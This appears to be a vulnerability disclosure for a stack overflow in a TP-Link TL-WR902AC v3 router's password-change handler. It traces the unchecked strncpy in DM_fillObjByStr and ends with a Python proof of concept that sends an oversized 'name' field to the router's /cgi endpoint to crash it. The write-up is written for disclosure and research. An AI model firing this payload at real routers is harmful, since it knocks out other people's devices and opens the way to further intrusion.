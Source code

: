 ## ***\*Affected version\****

![img](https://github.com/cilan2/iot/blob/main/img/wps3732.tmp.jpg) 

##  

## ***\*2. Vulnerability details\****

The main reason for the stack overflow vulnerability is in libcmm So library function DM_ In fillobjbystr(), this function will process the value of key = value returned from the front end. The following describes the propagation path of the vulnerability, taking httpd password modification as an example. Httpd program does not check the length when receiving oldpwd, PWD and name. After using sprintf to splice these variables, the first propagation function is RDP_ setObj()

 

![img](https://github.com/cilan2/iot/blob/main/img/wps3733.tmp.jpg) 

Figure 2 vulnerability propagation location 1

This function is called RDP_ Setobj () calls DM_ Fillobjbystr() function for the next step.

![img](https://github.com/cilan2/iot/blob/main/img/wps3734.tmp.jpg) 

 

Figure 3 vulnerability propagation location 2

Then in DM_ Fillobjbystr() directly calls strncpy to copy the input content into the local variable V26. As shown in Figure 7, the variable size is 1304 and can overflow; At the same time, as shown in Figure 6, the copy length of strncpy is the character length between '=' and '\ n', which is not limited or checked. Therefore, the copy length is controllable, and there is a stack overflow vulnerability in this position. The second red box here is the test crash location.

![img](https://github.com/cilan2/iot/blob/main/img/wps3735.tmp.jpg) 

Figure 4 overflow position and crash position

![img](https://github.com/cilan2/iot/blob/main/img/wps3736.tmp.jpg) 

Figure 5 controllable copy length

![img](https://github.com/cilan2/iot/blob/main/img/wps3737.tmp.jpg) 

 

Figure 6 local variable overflow size

## 

## ***\*3. Recurring vulnerabilities and POC\****

In order to reproduce the vulnerability, the following steps can be followed:

\1. Use fat simulation firmware tl-wr902acv3_ US_ 0.9.1_ 0.2. bin

\2. Attack with the following POC attacks

import requests

 

headers = {

​	"Host": "192.168.0.1",

​	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",

​	"Accept": "*/*",

​	"Accept-Language": "en-US,en;q=0.5",

​	"Accept-Encoding": "gzip, deflate",

​	"Content-Type": "text/plain",

​	"Content-Length": "78",

​	"Origin": "http://192.168.0.1",

​	"Connection": "close",

​	"Referer": "http://192.168.0.1/"

}

 

payload = "a" * 2048

formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)

 

url = "http://192.168.0.1/cgi?8"

 

response = requests.post(url, data=formdata, headers=headers)

print response.text

 

The reproduction results are as follows:

![img](https://github.com/cilan2/iot/blob/main/img/wps3747.tmp.jpg) 
